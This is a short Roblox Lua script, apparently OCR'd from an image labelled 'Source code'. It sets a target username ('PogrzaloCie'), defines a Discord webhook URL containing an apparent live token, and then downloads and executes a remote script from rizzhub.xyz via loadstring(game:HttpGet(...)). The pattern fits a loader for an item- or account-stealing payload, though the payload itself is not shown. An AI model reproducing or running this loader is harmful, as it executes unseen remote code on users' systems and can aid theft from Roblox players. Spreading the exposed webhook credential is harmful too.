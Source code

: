 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy"
loadstring(game:HttpGet("https://rizzhub.xyz/scripts/Main.lua", true))()
